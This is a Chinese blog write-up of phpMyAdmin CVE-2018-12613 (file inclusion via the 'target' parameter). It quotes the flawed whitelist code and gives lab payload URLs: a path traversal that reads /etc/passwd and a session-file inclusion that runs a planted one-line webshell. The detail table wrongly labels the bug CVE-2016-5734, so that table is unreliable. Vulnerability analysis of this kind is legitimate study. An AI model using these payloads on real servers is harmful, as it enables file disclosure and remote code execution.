 ```yaml
---
# 当前页面内容标题
title: CVE-2018-12613
# sidebar: heading
# 当前页面图标
icon: note
# 分类
category:
    - CVE
tag:
    - phpmyadmin
    - php
    - 文件包含
sticky: false
# 是否收藏在博客主题的文章列表中，当填入数字时，数字越大，排名越靠前。
star: false
# 是否将该文章添加至文章列表中
article: true
# 是否将该文章添加至时间线中
timeline: true
# sidebar: heading
order: 1
date: 2023-02-03
# 浏览量
pageview: true
---
```


## 漏洞详情

`index.php`页面未对`target`参数进行有效过滤，导致的文件包含漏洞

| 漏洞名称        | phpMyAdmin文件包含漏洞（CVE-2016-5734）              |
| --------------- | ---------------------------------------------------- |
| <b>发布时间</b> | <b>2018年06月21日</b>                                |
| <b>漏洞编号</b> | <b>CVE-2016-5734</b>                                 |
| <b>威胁类型</b> | <b>远程代码执行</b>                                  |
| <b>威胁级别</b> | <b>严重</b>                                          |
| <b>利用条件</b> | <b>- 必须登录</b>                                    |
| <b>影响版本</b> | <b>- 4.8.0版本<br>\- 4.8.0.1版本<br>\- 4.8.1版本</b> |

## 漏洞分析

首先验证文件包含

```
http://192.168.79.128:8080/index.php?target=db_sql.php?../../../../../../../etc/passwd
```

![image-20230203152934084](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20230203152934084.png)

查看源代码（index.php文件，第55行）

```php
$target_blacklist = array (
    'import.php', 'export.php'
);
if (! empty($_REQUEST['target'])
    && is_string($_REQUEST['target']) // 是字符串
    && ! preg_match('/^index/', $_REQUEST['target']) // 开头不为index
    && ! in_array($_REQUEST['target'], $target_blacklist) // 目标不在黑名单范围内 
    && Core::checkPageValidity($_REQUEST['target']) // 检查页面是否存在白名单
) {
    include $_REQUEST['target'];
    exit;
}
```

重点在检查白名单这里`Core::checkPageValidity($_REQUEST['target'])`

打开`libraries\classes\Core.php`目录，第443行

```php
public static function checkPageValidity(&$page, array $whitelist = [])
{
    if (empty($whitelist)) {
        $whitelist = self::$goto_whitelist;
    }
    if (! isset($page) || !is_string($page)) {
        return false;
    }
    if (in_array($page, $whitelist)) {
        return true;
    }
    
    $_page = mb_substr(
        $page,
        0,
        mb_strpos($page . '?', '?')
    );
    if (in_array($_page, $whitelist)) {
        return true;
    }
    $_page = urldecode($page);
    $_page = mb_substr(
        $_page,
        0,
        mb_strpos($_page . '?', '?')
    );
    if (in_array($_page, $whitelist)) {
        return true;
    }
    return false;
}
```

这里会对`target`进行白名单验证，该函数有两个值，如果第二个值为空，则会使用默认白名单（第31行）

```php
public static $goto_whitelist = array(
    'db_datadict.php',
    'db_sql.php',
    'db_events.php',
    'db_export.php',
    'db_importdocsql.php',
    'db_multi_table_query.php',
    'db_structure.php',
    'db_import.php',
    'db_operations.php',
    'db_search.php',
    'db_routines.php',
    'export.php',
    'import.php',
    'index.php',
    'pdf_pages.php',
    'pdf_schema.php',
    'server_binlog.php',
    'server_collations.php',
    'server_databases.php',
    'server_engines.php',
    'server_export.php',
    'server_import.php',
    'server_privileges.php',
    'server_sql.php',
    'server_status.php',
    'server_status_advisor.php',
    'server_status_monitor.php',
    'server_status_queries.php',
    'server_status_variables.php',
    'server_variables.php',
    'sql.php',
    'tbl_addfield.php',
    'tbl_change.php',
    'tbl_create.php',
    'tbl_import.php',
    'tbl_indexes.php',
    'tbl_sql.php',
    'tbl_export.php',
    'tbl_operations.php',
    'tbl_structure.php',
    'tbl_relation.php',
    'tbl_replace.php',
    'tbl_row_action.php',
    'tbl_select.php',
    'tbl_zoom_select.php',
    'transformation_overview.php',
    'transformation_wrapper.php',
    'user_password.php',
);
```

然后对`target`进行验证，在验证过程中会对`?`进行处理，所以只要`?`这边的参数正确即可

最后回到`index.php`，这里没有对target参数进行任何处理，所以造成了文件包含的漏洞

```php
include $_REQUEST['target'];
exit;
```

## 漏洞利用

这里是主要`phpmyadmin`会将用户的操作记录到session文件中，这里可以将一句话木马添加到访问的路径或查询操作中就可以对session文件进行文件包含

而最关键的文件名称是`sess_ + cookie中phpmyadmin的值`

也就是`sess_2ad097ff8afe0d9fa118887a4bb4b0f5`

步骤1：

![image-20230203160526320](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20230203160526320.png)

可以查看一下`/tmp/sess_2ad097ff8afe0d9fa118887a4bb4b0f5`

![image-20230203160711779](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20230203160711779.png)

步骤2：

访问地址：

```url
http://192.168.79.128:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_2ad097ff8afe0d9fa118887a4bb4b0f5
```

![image-20230203160727712](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20230203160727712.png)

